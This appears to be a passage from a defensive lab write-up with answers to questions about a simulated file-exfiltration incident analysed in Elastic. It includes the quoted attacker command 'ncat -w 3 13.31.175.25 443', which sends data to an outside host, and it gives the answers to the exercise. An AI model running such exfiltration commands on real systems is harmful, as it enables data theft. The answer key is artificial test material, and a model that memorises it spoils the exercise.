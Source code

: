 From which directory did the attacker exfiltrate the fifth file?
﻿

(Enter the directory path, e.g., C:\ProgramFiles)

C:\Users\trainee\Documents\

<img width="1907" height="554" alt="image" src="https://github.com/user-attachments/assets/24072a25-9bf8-4ec8-a57c-26dca7fdffe7" />


Identify File Exfiltration 5 Solution
Alter the following query:  

172.16.5.83 AND 13.31.175.25 AND destination.port: 80
﻿

Search for the process creation data including the victim and attacker IP addresses. 

﻿

Based on the specified timeframe, view the last Windows Event Log to see key details of the command executed by the attacker.  

﻿

In the event message details, as seen in Figure 37-9 below, the following command is displayed:

ncat -w 3 13.31.175.25 443


<img width="767" height="107" alt="image" src="https://github.com/user-attachments/assets/43dd9ab1-07dc-49c2-92bc-fce479b99822" />

The event message details reveal that the file directory used to issue the command is C:\Users\trainee\Documents\.


-----------------------


Identify the Blocked Firewall Service
Question:
﻿

What is the port number for the firewall service that the threat actor blocked?
﻿

(Enter the correct answer)


3389


<img width="1900" height="357" alt="image" src="https://github.com/user-attachments/assets/12da60fe-f6e1-47ff-958c-03864f95aa6d" />


Identify the Blocked Firewall Service Solution
In Elastic, filter the dataset down to the dev-win10-13 host and examine the process.command_line field. 

﻿

As seen in Figure 37-10 below, enter the following query:
